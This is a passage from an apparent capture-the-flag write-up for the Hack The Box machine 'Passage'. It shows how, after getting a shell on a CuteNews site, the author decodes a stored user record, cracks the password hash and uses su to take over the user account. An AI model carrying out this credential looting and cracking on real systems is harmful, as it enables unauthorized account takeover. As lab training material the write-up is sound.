Now, once I've gotten a shell on any type of web application software, especially ones that are managed with databases, I always try to loot for configuration files, as they'll likely end up having a ton of useful information such as hard coded database credentials. In this case it did, if you visit `/var/www/html/CuteNews/cdata/users` and `cat lines` you see a bunch of base64 encoded strings, decoding one of them reveals credentials to the user 'paul'

```
┌─[root@parrot]─[/home/utopia/Documents/HTB/Boxes/Passage]
└──╼ #echo "YToxOntzOjQ6Im5hbWUiO2E6MTp7czoxMDoicGF1bC1jb2xlcyI7YTo5OntzOjI6ImlkIjtzOjEwOiIxNTkyNDgzMjM2IjtzOjQ6Im5hbWUiO3M6MTA6InBhdWwtY29sZXMiO3M6MzoiYWNsIjtzOjE6IjIiO3M6NToiZW1haWwiO3M6MTY6InBhdWxAcGFzc2FnZS5odGIiO3M6NDoibmljayI7czoxMDoiUGF1bCBDb2xlcyI7czo0OiJwYXNzIjtzOjY0OiJlMjZmM2U4NmQxZjgxMDgxMjA3MjNlYmU2OTBlNWQzZDYxNjI4ZjQxMzAwNzZlYzZjYjQzZjE2ZjQ5NzI3M2NkIjtzOjM6Imx0cyI7czoxMDoiMTU5MjQ4NTU1NiI7czozOiJiYW4iO3M6MToiMCI7czozOiJjbnQiO3M6MToiMiI7fX19" | base64 -d
a:1:{s:4:"name";a:1:{s:10:"paul-coles";a:9:{s:2:"id";s:10:"1592483236";s:4:"name";s:10:"paul-coles";s:3:"acl";s:1:"2";s:5:"email";s:16:"paul@passage.htb";s:4:"nick";s:10:"Paul Coles";s:4:"pass";s:64:"e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd";s:3:"lts";s:10:"1592485556";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
```

john couldn't crack the hash, but crackstation managed to, the password is `atlanta1` 

Okay, we use `su` and use our gathered credentials and it works.

```
www-data@passage:/var/www/html/CuteNews/cdata/users$ su paul 
Password: 
paul@passage:/var/www/html/CuteNews/cdata/users$ cd ~
paul@passage:~$ ls -al
total 112
drwxr-x--- 16 paul paul 4096 Feb  5 06:30 .
drwxr-xr-x  4 root root 4096 Jul 21  2020 ..
----------  1 paul paul    0 Jul 21  2020 .bash_history
-rw-r--r--  1 paul paul  220 Aug 31  2015 .bash_logout
-rw-r--r--  1 paul paul 3770 Jul 21  2020 .bashrc
drwx------ 10 paul paul 4096 Sep  1  2020 .cache
drwx------ 14 paul paul 4096 Aug 24  2020 .config
drwxr-xr-x  2 paul paul 4096 Jul 21  2020 Desktop
-rw-r--r--  1 paul paul   25 Aug 24  2020 .dmrc
drwxr-xr-x  2 paul paul 4096 Jul 21  2020 Documents
drwxr-xr-x  2 paul paul 4096 Jul 21  2020 Downloads
-rw-r--r--  1 paul paul 8980 Apr 20  2016 examples.desktop
drwx------  2 paul paul 4096 Aug 24  2020 .gconf
drwx------  3 paul paul 4096 Feb  5 06:58 .gnupg
-rw-------  1 paul paul 1936 Feb  5 06:30 .ICEauthority
drwx------  3 paul paul 4096 Aug 24  2020 .local
drwxr-xr-x  2 paul paul 4096 Jul 21  2020 Music
drwxr-xr-x  2 paul paul 4096 Jul 21  2020 Pictures
-rw-r--r--  1 paul paul  655 May 16  2017 .profile
drwxr-xr-x  2 paul paul 4096 Jul 21  2020 Public
drwxr-xr-x  2 paul paul 4096 Jul 21  2020 .ssh
drwxr-xr-x  2 paul paul 4096 Jul 21  2020 Templates
-r--------  1 paul paul   33 Mar  6 06:02 user.txt
drwxr-xr-x  2 paul paul 4096 Jul 21  2020 Videos
-rw-------  1 paul paul   52 Feb  5 06:30 .Xauthority
-rw-------  1 paul paul 1304 Feb  5 06:58 .xsession-errors
-rw-------  1 paul paul 1180 Feb  5 04:42 .xsession-errors.old
paul@passage:~$
```
